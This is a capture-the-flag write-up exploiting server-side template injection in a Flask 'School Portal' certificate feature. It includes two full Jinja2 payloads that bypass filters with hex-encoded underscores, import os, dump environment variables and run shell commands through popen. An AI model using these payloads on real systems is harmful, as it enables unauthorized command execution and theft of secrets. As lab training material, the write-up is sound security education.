








# School Portal - Server-Side Template Injection (SSTI) Writeup

## Challenge Overview
The School Portal challenge involves exploiting a Server-Side Template Injection (SSTI) vulnerability in a Flask web application to retrieve a flag stored as an environment variable.

## Initial Reconnaissance

### Application Analysis
Upon accessing the application, we discover a school portal system with the following features:
- User registration and authentication
- Dashboard functionality
- Certificate generation system


*Initial landing page of the School Portal*


*User registration form*


*User dashboard interface*

## Vulnerability Discovery

### Certificate Generation Feature
The application includes a certificate generation feature that appears to accept the certificate name . This is often a prime target for template injection attacks.


*Certificate generation*

### SSTI Detection and Testing
During testing of the certificate generation functionality, we started with a basic SSTI detection payload to see if the application processes user input through a template engine.

**Initial Test Payload:** `{{7*7}}`


*Initial Test Payload*


*Result of the payload - Notice the output shows "49" indicating successful template injection*

The successful execution of the mathematical expression `{{7*7}}` returning `49` confirms that the application is vulnerable to Server-Side Template Injection, likely using Jinja2 template engine based on Flask framework indicators.

## Exploitation Process

### Step 1: Environment Variable Enumeration
Since CTF flags are commonly stored as environment variables, we crafted a payload to access the application's environment:

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('environ')}}
```

**Payload Breakdown:**
- `request|attr('application')` - Access the Flask application object
- `attr('\x5f\x5fglobals\x5f\x5f')` - Access global variables (encoded `__globals__`)
- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')` - Get builtins module
- `attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')` - Import os module
- `attr('environ')` - Access environment variables

**Note:** Hex encoding (`\x5f`) is used to bypass potential filters that might block `__` sequences.


*Environment variable enumeration results showing available environment variables*

### Step 2: Flag Extraction Optimization
The initial payload revealed environment variables but the flag output was truncated. To properly extract the complete flag, we refined our approach:

```python
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('echo $FLAG_00_This_real | fold -w 50')|attr('read')()}}
```

**Payload Improvements:**
- `attr('popen')('echo $FLAG_00_This_real | fold -w 50')` - Execute shell command to echo the flag
- `fold -w 50` - Format output with line breaks every 50 characters for better readability
- `attr('read')()` - Read the command output


*Successfully extracted flag using the optimized SSTI payload*

## Flag
The flag was successfully extracted using the optimized SSTI payload.


## Difficulty: Easy
This challenge demonstrates the importance of secure template handling and the risks associated with Server-Side Template Injection vulnerabilities.
